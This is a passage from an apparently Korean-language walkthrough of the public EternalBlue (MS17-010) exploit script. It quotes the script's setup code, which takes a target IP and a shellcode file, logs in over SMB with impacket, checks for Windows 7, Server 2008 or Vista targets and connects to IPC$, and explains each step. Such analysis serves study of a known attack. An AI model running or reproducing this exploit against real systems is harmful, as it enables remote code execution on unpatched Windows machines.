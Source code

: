 > original source - https://github.com/worawit/MS17-010/blob/master/eternalblue_exploit7.py

---

## 0. 공격 준비

    #!/usr/bin/python
    from impacket import smb
    from struct import pack
    import sys
    import socket

    if len(sys.argv) < 3:
    print("{} <ip> <shellcode_file> [numGroomConn]".format(sys.argv[0]))
    sys.exit(1)

    TARGET=sys.argv[1]
    numGroomConn = 13 if len(sys.argv) < 4 else int(sys.argv[3])

    fp = open(sys.argv[2], 'rb')
    sc = fp.read()
    fp.close()

    print('shellcode size: {:d}'.format(len(sc)))
    print('numGroomConn: {:d}'.format(numGroomConn))

    exploit(TARGET, sc, numGroomConn)
    print('done')

유저로부터 commandline argument로 `ip`, `shellcode_file`, `numGroomConn` 을 입력받는다.

`ip`는 공격 대상의 ip, `shellcode_file`은 실행시키고자 하는 쉘코드 파일의 주소, `numGroomConn`은 kernel grooming에 사용되는 파라미터다.

세팅 후, `exploit()` 함수를 통해 실제 공격이 시작된다.


## 1. exploit()

본 익스플로잇에서는 SMB 프로토콜 통신을 위해 오픈 소스 라이브러리인 [impacket](https://github.com/CoreSecurity/impacket)을 사용한다.


    conn = smb.SMB(target, target)
    conn.login_standard('', '')
    server_os = conn.get_server_os()
    print('Target OS: '+server_os)

    if not (server_os.startswith("Windows 7 ") or (server_os.startswith("Windows Server ") and ' 2008 ' in server_os) or server_os.startswith("Windows Vista")):
      print('This exploit does not support this target')
      sys.exit()

먼저 원격 시스템과 커넥션을 구축(핸드쉐이크)하고, 해당 시스템이 본 익스플로잇에 맞는 OS를 사용하고 있는 지 확인한다.

해당하는 OS (windows 7 or windows server 2008)이 아닐 경우 종료한다.

    tid = conn.tree_connect_andx('\\\\'+target+'\\'+'IPC$')
